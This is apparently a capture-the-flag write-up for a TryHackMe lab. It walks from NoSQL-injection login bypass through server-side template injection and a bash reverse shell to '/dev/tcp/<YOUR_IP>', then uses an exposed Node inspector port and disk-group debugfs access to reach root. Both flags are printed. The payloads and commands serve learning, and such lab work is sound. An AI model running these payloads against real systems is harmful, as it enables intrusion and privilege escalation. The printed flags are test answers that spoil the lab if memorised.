







# Do Not Disturb

Date: August 02, 2026

## Information

- Challenge: [Do Not Disturb](https://tryhackme.com/room/hh-donotdisturb-84a45644)
- Category: Web, Boot2Root
- Difficulty: Medium
- Description:

```text
Sign's on the door. Room's active. You have access you were never given, and so does he.

The anomalies stop being anomalies: a session goes warm on a sunbed, and a stranger sits down in it, a wallet signs a transaction its owner didn't authorise, a shell on the beach answers back. And it becomes clear that whoever's already inside has been moving for far longer than you have.

The Byte Lotus poolside platform tracks every cabana, every sunbed, every warm session. Byte Lotus never forgets. Someone is already inside. Follow his footprints in, climb the way he climbed, and recover both flags.
```

## Solution

The challenge provided an IP address, so the first thing I did was check which ports were open and what services were running using `nmap`.

```bash
nmap -sC -sV -T4 <IP>
```

The scan showed that port 80 (HTTP) and port 22 (SSH) were open.

I visited `http://<IP>` and saw a login page.

I tried viewing the page source, testing some common credentials, checking `robots.txt`, but nothing interesting was found.

Next, I looked for hidden directories using Gobuster.

```bash
gobuster dir -u "http://<IP>" -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```

I found two directories:

```text
/staff
/logout
```

While `gobuster` was running, I discovered that the login form was vulnerable to `NoSQL Injection`.

I intercepted the login request in Burp Suite and changed the header:

```http
Content-Type: application/x-www-form-urlencoded
```

to:

```http
Content-Type: application/json
```

Then I sent the following JSON data:

```http
{"username":"attendant","password":{"$ne":null}}
```

This allowed me to obtain the `attendant` session cookie.



I used this cookie to access `/staff` and found the following form.



I intercepted the request with Burp Suite and tested the following payload after URL encoding it:

```text
Dear <%= 7*7 %>, your Byte Lotus cabana is confirmed.
```

As expected, `<%= 7*7 %>` was rendered as `49`, confirming that the application was vulnerable to `SSTI`.



Using the `SSTI` vulnerability, I executed a reverse shell payload to gain RCE.

On my machine, I started a Netcat listener on port `4096`.

```bash
nc -lvnp 4096
```

On the target application, I used the following payload, replacing `<YOUR_IP>` with my Kali machine's IP address.

```bash
Dear <%= process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/<YOUR_IP>/4096 0>&1"').toString() %>, your Byte Lotus cabana is confirmed.
```

I successfully gained RCE as the `poolside` user.



Running `ls /home` showed three user accounts:

```bash
pipelinesvc
poolside
ubuntu
```

I read the user flag:

```bash
cat /home/poolside/user.txt
```

I successfully obtained the user flag.



Next, I ran `ps aux` to look for a privilege escalation path.

```bash
ps aux
```



```bash
pipelin+     598  0.0  2.3 988568 45564 ?        Ssl  04:50   0:00 /usr/bin/node --inspect=127.0.0.1:9229 processor.js
```

The `processor.js` process was running as the `pipelinesvc` user and had the Node Inspector debug port (`9229`) enabled, bound only to localhost.

The `--inspect` flag enables the Node.js Inspector Protocol (similar to the Chrome DevTools debugger). Anyone who can connect to this port can send JavaScript commands that execute inside the running process. Since this process runs as `pipelinesvc`, any JavaScript code also runs with the privileges of `pipelinesvc`.

First, I retrieved the debug session information.

```bash
curl http://127.0.0.1:9229/json
```

Output

```bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   669  100   669    0     0   798k      0 --:--:-- --:--:-- --:--:--  653k
[ {
  "description": "node.js instance",
  "devtoolsFrontendUrl": "devtools://devtools/bundled/js_app.html?experiments=true&v8only=true&ws=127.0.0.1:9229/5ac3484a-f68a-42b6-9ac2-87f32a13aec9",
  "devtoolsFrontendUrlCompat": "devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1:9229/5ac3484a-f68a-42b6-9ac2-87f32a13aec9",
  "faviconUrl": "https://nodejs.org/static/images/favicons/favicon.ico",
  "id": "5ac3484a-f68a-42b6-9ac2-87f32a13aec9",
  "title": "processor.js",
  "type": "node",
  "url": "file:///opt/pipelinesvc/telemetry/processor.js",
  "webSocketDebuggerUrl": "ws://127.0.0.1:9229/5ac3484a-f68a-42b6-9ac2-87f32a13aec9"
} ]
```

I used Node's built-in debugger to connect.

```bash
node inspect 127.0.0.1:9229
```

Inside the debugger, I typed `repl` to switch to REPL mode, allowing me to execute JavaScript directly inside the `processor.js` process.



I tested the following command:

```bash
process.mainModule.require('child_process').execSync('id').toString()
```

Output

```bash
uid=995(pipelinesvc) groups=995(pipelinesvc),6(disk)
```

I successfully achieved RCE as the `pipelinesvc` user.

Next, I needed to find which block device contained the root filesystem (`/`) so I could abuse the `disk` group permissions.

```bash
process.mainModule.require('child_process').execSync('lsblk; echo ---; cat /proc/mounts | grep " / "').toString()
```

Output

```bash
'NAME        MAJ:MIN RM   SIZE RO TYPE MOUNTPOINTS\n' +
  'loop0         7:0    0  28.2M  1 loop /snap/amazon-ssm-agent/13009\n' +
  'loop1         7:1    0  28.4M  1 loop /snap/amazon-ssm-agent/13349\n' +
  'loop2         7:2    0 105.2M  1 loop /snap/core/17292\n' +
  'loop3         7:3    0  55.3M  1 loop /snap/core18/1885\n' +
  'loop4         7:4    0    74M  1 loop /snap/core22/2411\n' +
  'loop5         7:5    0  74.2M  1 loop /snap/core22/1621\n' +
  'loop6         7:6    0    64M  1 loop /snap/core20/2379\n' +
  'loop7         7:7    0  63.8M  1 loop /snap/core20/2866\n' +
  'loop8         7:8    0  91.9M  1 loop /snap/lxd/29619\n' +
  'loop9         7:9    0  91.9M  1 loop /snap/lxd/38688\n' +
  'nvme1n1     259:0    0     1G  0 disk \n' +
  'nvme0n1     259:1    0    20G  0 disk \n' +
  '└─nvme0n1p1 259:2    0    20G  0 part /\n' +
  '---\n' +
  '/dev/root / ext4 rw,relatime,discard 0 0\n'
```

This confirmed that the root filesystem (`/`) was located on `/dev/nvme0n1p1`.

Next, I ran:

```bash
process.mainModule.require('child_process').execSync('debugfs -R "ls -l /root" /dev/nvme0n1p1 2>&1').toString()
```

Output

```bash
'debugfs 1.47.0 (5-Feb-2023)\n' +
  '   1492   40700 (2)      0      0    4096 16-Jun-2026 10:12 .\n' +
  '      2   40755 (2)      0      0    4096  3-Aug-2026 04:50 ..\n' +
  '   1493  100644 (1)      0      0     161  5-Dec-2019 14:39 .profile\n' +
  '   1494  100644 (1)      0      0    3106  5-Dec-2019 14:39 .bashrc\n' +
  ' 256094   40700 (2)      0      0    4096 22-Oct-2024 08:27 .ssh\n' +
  ' 256274   40755 (2)      0      0    4096 22-Oct-2024 08:28 snap\n' +
  ' 256896   40755 (2)      0      0    4096 22-Oct-2024 09:09 .local\n' +
  '    132  100600 (1)      0      0     165 16-Jun-2026 10:12 .bash_history\n' +
  '    642  100600 (1)      0      0   15274 16-Jun-2026 09:32 .viminfo\n' +
  ' 524609   40755 (2)      0      0    4096 16-Jun-2026 09:28 .npm\n' +
  '    624  100600 (1)      0      0      34 16-Jun-2026 09:32 root.txt\n' +
  '\n'
```

I found exactly what I was looking for: `root.txt`.

Finally, I read the file:

```bash
process.mainModule.require('child_process').execSync('debugfs -R "cat /root/root.txt" /dev/nvme0n1p1 2>&1').toString()
```

I successfully obtained the root flag.

## Flag

user flag

```text
THM{w4rm_s3ss10n_h1j4ck3d}
```

root flag

```text
THM{r4w_d1sk_4cc3ss_w4s_t00_much}
```

## Kill Chain Summary

```text
NoSQLi (bypass login, no type-checking)
    → SSTI (RCE as poolside, user input rendered as template)
        → Node Inspector exposed on pipelinesvc process (lateral move)
            → pipelinesvc in group "disk" (raw block device read, bypasses VFS permission)
                → root.txt via debugfs
```